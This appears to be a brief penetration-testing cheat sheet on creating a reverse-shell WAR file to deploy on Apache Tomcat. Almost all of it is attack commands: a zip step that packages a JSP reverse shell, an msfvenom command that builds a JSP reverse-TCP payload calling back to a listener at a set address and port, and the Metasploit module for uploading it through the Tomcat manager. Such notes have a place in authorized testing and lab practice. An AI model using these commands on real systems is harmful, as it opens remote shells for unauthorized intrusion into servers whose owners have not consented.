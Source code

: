 # .war rev shell

---

.war reverse shell can be created with following command:

#### Manual

```
zip webshell.war jsp_reverse-shell.jsp
```


#### Metasploit

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.34 LPORT=4444 -f war > shell.war
```

TomCat Reverse Shell can be created by using the following metasploit module:

```
exploit/multi/http/tomcat_mgr_upload
```

